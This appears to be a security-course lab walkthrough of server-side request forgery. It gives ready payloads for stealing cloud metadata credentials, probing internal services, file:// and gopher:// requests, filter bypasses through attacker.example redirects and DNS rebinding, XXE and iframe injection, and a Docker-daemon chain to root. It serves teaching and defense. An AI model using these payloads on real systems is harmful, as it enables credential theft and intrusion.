

# Week 08: Attack walkthrough — Server-Side Request Forgery

> ⚠️ **Lab only.** SSRF probes reach internal infrastructure. Never against systems you don't own.

---

## The mental model

The server fetches a URL on the client's behalf. If the client controls the URL, the client can use the server as a proxy into networks the client can't reach directly:



The server already has network privileges the attacker doesn't. SSRF turns those privileges into attacker reach.

## Step 0: Find SSRF surfaces

Every "the server fetches something" feature is a candidate:

| Feature | What to look for |
|---|---|
| Profile avatar from URL | `?avatar_url=...` |
| Webhook configuration | `?callback_url=...` |
| URL preview / link unfurling | "Send a link in chat → preview appears" |
| PDF / screenshot generators | "Export this URL to PDF" |
| Image proxies | `/proxy?image=...` |
| RSS readers | `?feed_url=...` |
| Open redirect followers | `?redirect=...` |
| OAuth / SSO callbacks | `?return_uri=...` |
| XML External Entity (XXE) — see Week 12 | XML parser fetches a DOCTYPE URL |
| Import-from-URL features | "Import data from this Google Sheet" |

Some of these are obvious (a URL field). Others are subtler — a "send invite" feature might fetch the recipient's avatar from Gravatar by email-hash, fetching from a URL the sender doesn't directly specify.

## Step 1: Confirm SSRF — point at yourself first

```
?avatar_url=http://attacker.example/callback
```

Set up a listener on `attacker.example`. If the listener gets a hit, the server is fetching arbitrary URLs. SSRF confirmed.

If no hit, the server may be filtering (only allowing a few hosts), or it may be blind (no response, no detectable side-channel yet). Move to step 2.

## Step 2: The high-impact targets

### Cloud metadata services

| Cloud | Metadata endpoint | Magic |
|---|---|---|
| AWS | `http://169.254.169.254/latest/meta-data/` | IMDSv1 returns instance-role credentials |
| GCP | `http://metadata.google.internal/computeMetadata/v1/` (needs `Metadata-Flavor: Google` header) | Service account tokens |
| Azure | `http://169.254.169.254/metadata/instance?api-version=2021-02-01` (needs `Metadata: true` header) | VM identity tokens |
| Oracle | `http://169.254.169.254/opc/v1/instance/` | Instance principals |
| DigitalOcean | `http://169.254.169.254/metadata/v1/` | Various |

**AWS IMDSv1 is the catastrophic case.** A `GET` to `169.254.169.254/latest/meta-data/iam/security-credentials/<role>` returns short-lived AWS credentials. With those, the attacker can call any AWS API the EC2 instance's role allows — read S3 buckets, dump RDS, etc.

The 2019 Capital One breach was exactly this chain. AWS introduced **IMDSv2** in 2019 to require a token (PUT first, then GET with the token header); SSRF can't forge the PUT/GET sequence over a typical HTTP fetcher.

The first thing to try in an AWS lab environment:

```
?avatar_url=http://169.254.169.254/latest/meta-data/iam/security-credentials/
```

If you get back a role name, follow it:

```
?avatar_url=http://169.254.169.254/latest/meta-data/iam/security-credentials/MyAppRole
```

Returns JSON with `AccessKeyId`, `SecretAccessKey`, `Token`.

### Internal services on the private network

The app server probably has access to internal services on private IPs:

```
?avatar_url=http://10.0.0.5:6379/         # internal Redis?
?avatar_url=http://10.0.0.10:5432/        # internal Postgres?
?avatar_url=http://internal.example/api/  # internal API?
?avatar_url=http://localhost:8080/admin/  # local admin UI?
```

Internal services often have no auth (they assume network isolation).

### Localhost services

```
?avatar_url=http://localhost/admin
?avatar_url=http://127.0.0.1:8500/        # Consul agent?
?avatar_url=http://localhost:9200/_cat/indices  # Elasticsearch?
?avatar_url=http://localhost:2375/        # Docker daemon? (RCE pivot)
```

`http://localhost:2375` reaching an unprotected Docker daemon = remote code execution on the host. Famous bug.

### Different protocols

If the URL parser is loose, swap protocol:

```
?avatar_url=file:///etc/passwd
?avatar_url=gopher://internal-redis:6379/_*1%0d%0a$4%0d%0aSAVE%0d%0a
?avatar_url=dict://internal-host:11211/stats
?avatar_url=ftp://internal-ftp/
?avatar_url=ldap://internal-ldap/
```

The `gopher://` protocol is particularly powerful — you can craft arbitrary TCP traffic with carefully constructed URLs, used to exploit Redis, memcached, SMTP, etc.

## Step 3: Bypass blacklist filters

Apps often try to block `127.0.0.1`, `localhost`, `169.254.169.254`. The bypass arms race:

### Decimal / octal / hex IP encoding

`127.0.0.1` is `2130706433` in decimal:

```
?avatar_url=http://2130706433/admin
```

Or octal: `0177.0.0.0.1`. Or hex: `0x7f000001`. Or mixed: `0177.0x0.0x0.0x1`. The URL parser doesn't always normalize before the blacklist check.

### IPv6

```
?avatar_url=http://[::1]/admin                ← IPv6 localhost
?avatar_url=http://[0:0:0:0:0:ffff:7f00:1]/   ← IPv6-mapped IPv4 localhost
```

### DNS-resolved tricks

Use a DNS record you control that resolves to a private IP:

```
A record:  myhost.attacker.example → 169.254.169.254

?avatar_url=http://myhost.attacker.example/latest/meta-data/
```

The blacklist sees `attacker.example`, allows it. The HTTP client resolves DNS, gets `169.254.169.254`, connects.

### DNS rebinding

The DNS resolves to a public IP at filter-check time, then resolves to a private IP at fetch time:

```
First DNS lookup (during validation): myhost.attacker.example → 1.2.3.4 (public)
Second DNS lookup (during fetch):     myhost.attacker.example → 127.0.0.1
```

You control the DNS server; you return different answers per request. The check and the fetch are different lookups.

Defeats validation-then-fetch designs. The right defense is to **fetch via a custom socket that resolves once and connects to the resolved IP** — never resolve twice.

### Redirect through your server

Even if the app validates the URL and rejects internal IPs, it might follow redirects:

```
?avatar_url=http://attacker.example/redirect

attacker.example/redirect → 302 Location: http://169.254.169.254/latest/meta-data/
```

The app fetches `attacker.example` (allowed), gets a 302, follows it to the metadata service.

PortSwigger's "SSRF with filter bypass via open redirection" lab.

### Userinfo trick

Some URL parsers see `http://allowed.example@evil.example/` as "host `allowed.example`, userinfo `evil.example`." Real HTTP clients fetch from `evil.example`.

```
?avatar_url=http://allowed.example@169.254.169.254/latest/meta-data/
```

Modern parsers (Python `urllib`, Go `net/url`) handle this correctly. Older or custom parsers often don't.

## Step 4: Blind SSRF

The response body doesn't return — maybe the fetched data is just used internally. Detect via side channels:

### Out-of-band (Burp Collaborator)

```
?avatar_url=http://<random>.burpcollaborator.net/
```

Watch the Collaborator log. If the request hits, SSRF confirmed.

This works whether or not the app exposes the response. The mere fact that the server made the request is the signal.

### Time-based

```
?avatar_url=http://10.0.0.5:11/        # closed port → quick rejection
?avatar_url=http://10.0.0.5:6379/      # open port → connection succeeds, slower
```

If response times differ measurably between an open port and a closed port, you can scan internal IP space port by port.

### Combine with downstream signals

Sometimes the SSRF call triggers an internal action visible elsewhere:

```
?webhook_url=http://internal-jenkins:8080/job/release/build
```

Trigger a build, check Jenkins build history.

## Step 5: SSRF in less-obvious features

### PDF / screenshot generators

Apps that turn a URL into a PDF using `wkhtmltopdf`, `puppeteer`, `weasyprint`, `Prince`, etc. — all of them follow `<iframe>`, ``, and CSS `url()` from the target page.

```html
<!-- Submit this as your profile bio, which the PDF generator renders -->
<iframe src="http://169.254.169.254/latest/meta-data/" width="800" height="600"></iframe>
```

The PDF generator fetches the metadata service to render the iframe. The PDF contains the leaked data.

### XML External Entities (preview)

XML parsers can fetch a URL specified in a DOCTYPE. We cover this in [Week 12](../week-12-xxe-upload-traversal/), but it overlaps:

```xml
<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY x SYSTEM "http://169.254.169.254/latest/meta-data/">]>
<root>&x;</root>
```

A vulnerable parser fetches the metadata URL and includes the response in the parsed document.

### URL-shortener / webhook gateway services

If your service consumes URLs from another service (an inbound webhook contains a URL field that you fetch), the upstream service might not validate. You inherit their SSRF surface.

## Step 6: SSRF chain to RCE — the Docker example

```
1. SSRF lets you reach localhost:2375 (Docker daemon, no auth in some setups).
2. POST /containers/create with a payload mounting / from host into a new container.
3. POST /containers/<id>/start.
4. exec into the new container.
5. chroot to the mounted host root.
6. You're now root on the host machine.
```

This is the high end of impact. Avoiding it: never expose Docker daemon on TCP; if you must, use TLS client certs. In modern setups, this combination is rare, but it's a pattern worth understanding.

## Common mistakes when learning

- **Only trying `localhost` / `127.0.0.1`.** Filters block these. Try IP variants, IPv6, DNS tricks.
- **Stopping at the first bypass that fails.** This is an arms race; one bypass succeeds out of many.
- **Forgetting redirects.** App validates `attacker.example`, fetches it, follows redirect to internal.
- **Not testing OAST/Collaborator.** Blind SSRF is invisible without it.
- **Skipping XML-based features.** XML parsers SSRF the same way.

Now read [defense.md](defense.md).
